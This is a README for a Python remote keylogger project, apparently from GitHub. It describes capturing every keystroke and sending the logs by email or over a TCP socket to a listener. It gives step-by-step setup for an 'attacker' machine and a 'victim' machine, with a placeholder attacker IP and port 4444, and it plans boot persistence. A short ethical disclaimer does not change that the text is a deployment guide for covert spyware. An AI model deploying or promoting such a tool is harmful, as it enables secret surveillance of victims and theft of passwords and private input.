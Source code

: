 🕵️‍♂️ Remote Keylogger Project (Python)

A Python-based remote keylogger tool designed for educational and ethical use only. It captures keyboard input and sends it either via email or to a remote TCP socket server for analysis.

---------------------------------------------------

🚀 Features

- 🎯 Captures all keystrokes (including special keys)
- 📤 Sends logs:
  - Via SMTP email
  - Over TCP socket to a remote listener
- 📅 Automatic email reporting every 5 minutes (configurable)
- 🧵 Threaded operation for smooth logging and reporting
- 💻 Cross-platform support (Windows/Linux)

---------------------------------------------------

⚙️ Installation

✅ Requirements
- Python 3.6 or above
- Libraries:
  - pynput
  - schedule

📦 Install Dependencies
pip install pynput schedule

---------------------------------------------------

🧠 Usage

📧 Email Keylogger

1. Open keylogger_email.py
2. Configure:
   EMAIL_ADDRESS = "your_email@gmail.com"
   EMAIL_PASSWORD = "your_app_password"
   TO_ADDRESS = "recipient@example.com"

   ⚠️ Use an App Password if 2FA is enabled on Gmail.

3. Run:
   python keylogger_email.py

---------------------------------------------------

🌐 Socket Keylogger

On Attacker (Listener) Machine:
python keylogger_server.py

On Victim Machine:
1. Open keylogger_client.py
2. Set the IP:
   SERVER_IP = "attacker-ip-address"
   PORT = 4444

3. Run:
   python keylogger_client.py

---------------------------------------------------

🔐 Ethical Disclaimer

This tool is intended strictly for educational, ethical hacking, and penetration testing purposes with proper authorization. Unauthorized use of this tool is illegal and unethical.

---------------------------------------------------

🔮 Future Improvements

- AES encrypted keylogs
- GUI dashboard to monitor logs
- Log persistence & auto-start on boot
- Log upload to cloud storage

---------------------------------------------------

📁 Project Structure

remote_keylogger_project/
├── keylogger_email.py       # Sends keylogs via email
├── keylogger_client.py      # Sends keylogs over socket
├── keylogger_server.py      # Receives and displays keylogs
└── README.txt               # Project documentation

---------------------------------------------------

🧑‍💻 Author

Sahil Koli  
Penetration Tester | Ethical Hacker  
GitHub: https://github.com/jokersk551

---------------------------------------------------

📬 Contact

Email: sahilkoliethical@gmail.com  
Instagram: https://www.instagram.com/j.o.k.e.r_sk/
